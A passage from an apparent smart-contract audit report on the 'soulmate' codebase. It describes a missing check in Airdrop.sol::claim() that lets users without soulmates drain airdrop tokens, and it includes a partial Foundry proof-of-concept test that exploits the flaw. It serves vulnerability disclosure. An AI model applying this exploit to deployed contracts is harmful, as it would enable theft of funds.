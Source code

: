 Run a test with `forge test --mt test_claimRewardsRevertsWhenCallerIsWithoutSoulmate`.

## <a id='h-03'></a>H-03. Missing validation in the `Airdrop.sol::claim()` function allows users without soulmates to claim airdrop tokens            

### Relevant GitHub Links
	
https://github.com/Cyfrin/2024-02-soulmate/blob/main/src/Airdrop.sol#L56-L59

## Summary

Missing validation checks in the `Airdrop.sol::claim()` function will allow users without soulmates to claim airdrop tokens

## Vulnerability Details

In the `Airdrop.sol::claim()` function, there is a code block that calculates the number of days a couple has been soulmates:

```javascript
uint256 numberOfDaysInCouple = (block.timestamp -
@>    soulmateContract.idToCreationTimestamp(
        soulmateContract.ownerToId(msg.sender)
    )) / daysInSecond;
```

This number is later used to determine the number of tokens that should be distributed to the caller.

`soulmateContract.idToCreationTimestamp()` will return `0` if the caller initiates `Soulmate.sol::mintSoulmateToken()` but is still waiting for a soulmate to be assigned.
`soulmateContract.idToCreationTimestamp()` will return the creation timestamp of the token with id `0` if the caller didn't initiate `Soulmate.sol::mintSoulmateToken()`.

In the end, this vulnerability has the potential to cause a drain of funds from the airdrop vault.

## Impact

Users without soulmates can claim airdrop tokens.

## Proof of Concept (PoC)

Add the following test in `AirdropTest.t.sol`:

```javascript
function test_usersWithoutSoulmatesCanClaimAirdropTokens(address random) public {
   // Random address validation
    vm.assume(random != address(soulmateContract) && random != address(loveToken) &&
              random != address(stakingContract) && random != address(airdropContract) &&
              random != address(airdropVault) && random != address(stakingVault)
    );

    assertEq(soulmateContract.soulmateOf(random), address(0)); // user without soulmate
    uint256 airdropVaultTokenBalanceBeforeClaim = loveToken.balanceOf(address(airdropVault));
    uint256 userTokenBalanceBeforeClaim = loveToken.balanceOf(random);
    assertEq(userTokenBalanceBeforeClaim, 0);

    uint256 mockedBlockTimestamp = 1707973127; // timestamp of Ethereum block number `19231100`
    vm.warp(mockedBlockTimestamp);
    vm.prank(random);
    airdropContract.claim(); // users without soulmates are allowed to claim airdrop tokens

    uint256 airdropVaultTokenBalanceAfterClaim = loveToken.balanceOf(address(airdropVault));
    uint256 userTokenBalanceAfterClaim = loveToken.balanceOf(random);
```